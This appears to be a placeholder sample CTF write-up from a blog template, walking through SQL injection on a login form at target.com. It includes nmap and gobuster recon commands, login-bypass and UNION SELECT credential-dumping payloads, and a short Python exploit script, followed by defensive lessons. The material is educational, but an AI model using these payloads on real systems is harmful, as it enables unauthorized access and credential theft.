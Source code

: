 ```yaml
---
title: "Sample CTF Challenge - Web Exploitation"
description: "A walkthrough of a sample web exploitation challenge demonstrating common techniques"
date: 2024-01-15
tags: ["web", "exploitation", "sql-injection"]
categories: ["Web Exploitation"]
author: "Hexora"
toc: true
---
```


## Challenge Overview

This is a sample CTF writeup to demonstrate how your blog will look. The challenge involves exploiting a web application vulnerable to SQL injection.

![CTF Challenge Banner](/images/ctf-banner.jpg)

## Initial Reconnaissance

First, let's examine the target application:

```bash
# Port scanning
nmap -sV -sC target.com

# Directory enumeration
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
```

![Port Scan Results](/images/port-scan.png)

## Vulnerability Analysis

The application appears to have a login form that's vulnerable to SQL injection:

```sql
' OR 1=1 --
' UNION SELECT username,password FROM users --
```

![Vulnerable Login Form](/images/login-form.png)

## Exploitation

Here's the Python script I used to exploit the vulnerability:

```python
import requests

def exploit_sql_injection(url):
    payload = "' OR 1=1 --"
    data = {"username": payload, "password": "anything"}
    
    response = requests.post(url + "/login", data=data)
    
    if "Welcome" in response.text:
        print("[+] SQL injection successful!")
        return True
    return False

# Test the exploit
exploit_sql_injection("http://target.com")
```

![Exploitation Success](/images/exploit-success.png)

## Flag Capture

After successful exploitation, the flag was revealed:

```
flag{5ql_1nj3ct10n_15_fun}
```

![Flag Captured](/images/flag-captured.png)

## Lessons Learned

1. **Always validate user input** - The application failed to sanitize SQL queries
2. **Use parameterized queries** - This prevents SQL injection attacks
3. **Implement proper authentication** - Don't rely on client-side validation

## Tools Used

- Nmap for port scanning
- Gobuster for directory enumeration
- Python requests library for exploitation
- Burp Suite for request manipulation

![Tools Used](/images/tools-used.png)

---

*This is a sample writeup to demonstrate the blog structure. Replace with your actual CTF solutions!*
